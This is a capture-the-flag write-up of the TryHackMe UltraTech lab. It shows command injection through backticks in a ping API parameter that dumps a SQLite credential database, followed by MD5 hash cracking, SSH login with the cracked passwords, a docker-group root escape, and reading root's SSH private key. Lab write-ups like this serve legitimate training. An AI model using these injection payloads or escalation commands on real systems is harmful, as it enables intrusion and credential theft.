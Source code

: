 ```yaml
---
layout: post
title:  THM UltraTech Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-12 11:00:00 +0300
image:  '/images/thm_ultratech.png'
tags:   [Write-ups, THM, OSCP+, Medium, Linux, API, Arbitrary-File-Read, SSH, GTFOBins-Shell, Docker]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [Interacting with the API URL to enumerate files and find hashes on database .db file](#interacting-with-the-api-url-to-enumerate-files-and-find-hashes-on-database-db-files)
  - [Cracking the hashes](#cracking-the-hashes)
  - [Getting SSH access as r00t](#getting-ssh-access-as-r00t)
- [Privilege Escalation](#privilege-escalation)
  - [Using id to find out that r00t is part of docker group](#using-id-to-find-out-that-r00t-is-part-of-docker-group)
  - [Using shell GTFOBins command to escalate privileges](#using-shell-gtfobins-command-to-escalate-privileges)
  - [Reading id_rsa of root](#reading-id_rsa-of-root)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.211.145

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,22,8081,31331,37445 10.10.211.145
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 03:31 EST
Nmap scan report for 10.10.211.145
Host is up (0.052s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open   http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
37445/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

Looking at the results of our nmap scan we can see FTP, SSH and two HTTP. Lets enumerate the HTTP ports first.

### Web Enumeration
If we visit port 8081, we will see UltraTech API v0.1.3, meaning that port 8081 is leading to an API:

```shell
http://10.10.211.145:8081/
```

If we visit port 31331, we will see a website of what seems to be a company.

We can also find a robots.txt file leading us to the file /utech_sitemap.txt:

```shell
http://10.10.211.145:31331/robots.txt
```

If we visit /utech_sitemap.txt, we will find more interesting files to visit:

```shell
/
/index.html
/what.html
/partners.html
```

We checked them, but the only interesting one seems to be /partners.html, leading us to a login portal.

If we inspect the source code of /partners.html, we will see this at the bottom:

```shell
<SNIP>
				</form>
				</div>
			</div>
		</div>
	</div>
	<script src='js/app.min.js'></script>
	<script src='js/api.js'></script>
</body>
</html>
```

If we click on js/api.js, it will lead us to another page, where we can see a line interacting with the API URL:

```shell
<SNIP>
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
<SNIP>
```

Here it is:

```shell
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

# Foothold
### Interacting with the API URL to enumerate files and find hashes on database .db file
It seems like the const url is using ping on an IP, lets try to ping 127.0.0.1, since we know this IP theoretically always exists, and see if we get any answer. We can do that entering the following URL in our web browser:

```shell
http://10.10.211.145:8081/ping?ip=127.0.0.1
```

```shell
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

It worked! We got a response showing the results of running the ping command.

Now we can try to run other commands like whoami:

```shell
http://10.10.211.145:8081/ping?ip=whoami
```

It didnt work. Lets try to put whoami like 'whoami':

```shell
http://10.10.211.145:8081/ping?ip='whoami'
```

It also didnt work. Lets try something else. Maybe like \`whoami\`?

```shell
10.10.211.145:8081/ping?ip=`whoami`
```

```shell
ping: www: Temporary failure in name resolution
```

It worked! We got www as ping response, which is actually the result of running the whoami command.

Lets enumerate the files on the directory:

```shell
http://10.10.211.145:8081/ping?ip=`ls%20-al`
```

```shell
ping: utech.db.sqlite: Name or service not known 
```

It seems like there is only utech.db.sqlite. Lets check its content:

```shell
http://10.10.211.145:8081/ping?ip=`cat%20utech.db.sqlite`
```

```shell
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

Nice! We got some hashes:

```shell
Mr00t:f357a0c52799563c7c7b76c1e7543a32
Madmin:0d0ea5111e3c1def594c1684e3b9be84
```

We can suppose that the first user is called "r00t" and the second one "admin".

### Cracking the hashes

Lets try to crack these hashes:

```shell
hashid 'f357a0c52799563c7c7b76c1e7543a32'
```

We got many results of possible valid hash types. Lets suppose its just a normal MD5, which uses -m 0 on hashcat. Now we can try to crack it:

```shell
hashcat -m 0 r00t_hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to successfully crack both of them and retrieve the following passwords:

```shell
r00t:n100906
admin:mrsheafy
```

### Getting SSH access as r00t

Lets try to get access using SSH now using r00t as username and the password we just cracked:

```shell
ssh r00t@10.10.211.145
```

Nice! We got access as r00t.

# Privilege Escalation
### Using id to find out that r00t is part of docker group
Using the command id we were able to find out that r00t is part of the docker group:

```shell
id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

This may allow us to run docker with privileged permission.

### Using shell GTFOBins command to escalate privileges
Searching for docker on GTFOBins we found the following command:

```shell
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

```shell
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

It worked! We got a shell as root.

### Reading id_rsa of root
Now we can read the contents of the root id_rsa and answer the last question:

```shell
cat /root/.ssh/id_rsa
```